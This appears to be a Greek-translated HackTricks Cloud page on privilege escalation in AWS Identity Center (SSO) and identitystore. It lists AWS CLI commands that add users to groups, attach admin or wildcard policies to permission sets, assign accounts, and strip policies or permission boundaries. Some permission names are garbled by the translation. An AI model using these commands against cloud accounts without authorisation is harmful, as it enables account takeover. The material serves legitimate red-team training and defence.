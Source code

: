 # AWS - Ανύψωση προνομίων AWS SSO & identitystore

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Κέντρο Ταυτότητας AWS / AWS SSO

Για περισσότερες πληροφορίες σχετικά με το Κέντρο Ταυτότητας AWS / AWS SSO ελέγξτε:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Σημειώστε ότι από προεπιλογή, μόνο **χρήστες** με δικαιώματα **από** το **Λογαριασμό Διαχείρισης** θα μπορούν να έχουν πρόσβαση και να **ελέγχουν το Κέντρο Ταυτότητας IAM**.\
Οι χρήστες από άλλους λογαριασμούς μπορούν να το επιτρέψουν μόνο αν ο λογαριασμός είναι **Αναθεωρημένος Διαχειριστής.**\
[Ελέγξτε τα έγγραφα για περισσότερες πληροφορίες.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Επαναφορά Κωδικού~~

Ένα εύκολο τρόπος ανύψωσης προνομίων σε περιπτώσεις όπως αυτή θα ήταν να υπάρχει ένα δικαίωμα που επιτρέπει την επαναφορά κωδικών χρηστών. Δυστυχώς, είναι δυνατή μόνο η αποστολή email στον χρήστη για την επαναφορά του κωδικού του, οπότε θα χρειαζόταν πρόσβαση στο email του χρήστη.

### `identitystore:CreateGroupMembership`

Με αυτό το δικαίωμα είναι δυνατό να τοποθετηθεί ένας χρήστης μέσα σε μια ομάδα, έτσι ώστε να κληρονομήσει όλα τα δικαιώματα που έχει η ομάδα. 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:ΤοποθέτησηΕνσωματωμένηςΠολιτικήςΣεΣύνολοΔικαιωμάτων`, `sso:ΠαροχήΣυνόλουΔικαιωμάτων`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να χορηγήσει επιπλέον δικαιώματα σε ένα Σύνολο Δικαιωμάτων που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να χορηγήσει επιπλέον δικαιώματα σε ένα σύνολο δικαιωμάτων που χορηγείται σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να χορηγήσει επιπλέον δικαιώματα σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του.

{% hint style="warning" %}
Για να καταχραστείτε αυτές τις άδειες σε αυτήν την περίπτωση, πρέπει να γνωρίζετε το **όνομα μιας πολιτικής που διαχειρίζεται από τον πελάτη και βρίσκεται ΣΕ ΟΛΟΥΣ τους λογαριασμούς** που θα επηρεαστούν.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ένας επιτιθέμενος με αυτήν την άδεια θα μπορούσε να δώσει ένα σύνολο δικαιωμάτων σε έναν χρήστη υπό τον έλεγχό του σε ένα λογαριασμό. 

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Επιστρέφει τα προνόμια STS με σύντομη διάρκεια για ένα συγκεκριμένο ρόλο που έχει ανατεθεί στον χρήστη.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ωστόσο, χρειάζεστε ένα διακριτικό πρόσβασης το οποίο δεν είμαι σίγουρος πώς να αποκτήσετε (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει τη συσχέτιση μεταξύ μιας διαχειριζόμενης πολιτικής AWS από το καθορισμένο σύνολο δικαιωμάτων. Είναι δυνατόν να χορηγηθούν περισσότερα προνόμια μέσω **αποσύνδεσης μιας διαχειριζόμενης πολιτικής (απόρριψη πολιτικής)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει τη συσχέτιση μεταξύ ενός διαχειριζόμενου πολιτικής πελάτη από το συγκεκριμένο σύνολο δικαιωμάτων. Είναι δυνατόν να χορηγηθούν περισσότερα προνόμια μέσω **αποσύνδεσης μιας διαχειριζόμενης πολιτικής (απόρριψης πολιτικής)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει τις άδειες από μια ενσωματωμένη πολιτική από το σύνολο άδειας. Είναι δυνατόν να χορηγηθούν **περισσότερα προνόμια μέσω της αποσύνδεσης μιας ενσωματωμένης πολιτικής (απόρριψη πολιτικής)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει το Όριο Άδειας από το σύνολο άδειας. Είναι δυνατόν να χορηγηθούν **περισσότερα προνόμια αφαιρώντας τους περιορισμούς στο Σύνολο Άδειας** που δίνονται από το Όριο Άδειας.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε τεχνικές χάκινγκ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
